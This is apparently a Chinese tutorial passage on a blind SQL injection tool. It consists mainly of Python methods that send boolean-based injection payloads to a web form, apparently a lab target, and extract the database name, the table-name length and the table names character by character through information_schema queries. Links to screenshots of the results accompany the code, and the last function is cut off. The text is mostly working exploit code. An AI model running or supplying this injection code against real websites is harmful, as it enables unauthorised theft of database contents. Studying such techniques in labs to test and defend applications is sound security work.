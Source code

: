 ### 获取数据库名

```python
    def get_database(self):
        self.database = ''
        for i in range(1,self.database_length+1):
            for j in self.zifuji:
                self.process(str(i) + ' get_database',j,self.database_length+1)
                theurl = self.url + "1' and ascii(substring(database(),{0},1))={1}%23".format(str(i),str(j)) + "&Submit=Submit#"
                html = self.s.get(theurl,headers=self.headers).text
                if self.check(html):
                    self.database += chr(j)
                    break
            if len(self.database) != i:
                self.database += '666'
        if len(self.database) > 0:
            print('\n==>',self.database)
        else:
            print("\n can not get the database")
```

运行结果：

![MGjklQ.png](https://s2.ax1x.com/2019/11/13/MGjklQ.png)

### 获取表长

```python
    def get_table_length(self):
        for i in range(1,50):
            self.process('get_table_length',i,50)
            theurl = self.url + "1' and (select length(group_concat(table_name)) as a from information_schema.tables where table_schema=database() having a={0})%23".format(str(i)) + "&Submit=Submit#"
            html = self.s.get(theurl,headers=self.headers).text
            if self.check(html):
                self.table_length.append(i)
                break
        if self.table_length[0] > 0:
            print('\n==>',self.table_length)
        else:
            print('\ncan not get the table_length')
```

运行结果：

![MGjdfO.png](https://s2.ax1x.com/2019/11/13/MGjdfO.png)

### 获取表名

```python
    def get_table_name(self):
        name = ''
        for i in range(1,self.table_length[0]+1):
            for j in self.zifuji:
                self.process('{0} get_table_name'.format(i),j,50)
                theurl = self.url + "1' and (select ascii(substring(group_concat(table_name),{0},1)) as a from information_schema.tables where table_schema=database() having a={1})%23".format(str(i),str(j)) + "&Submit=Submit#"
                html = self.s.get(theurl,headers=self.headers).text
                if self.check(html):
                    name += chr(j)
                    break
            if len(name) != i:
                name += '|'
```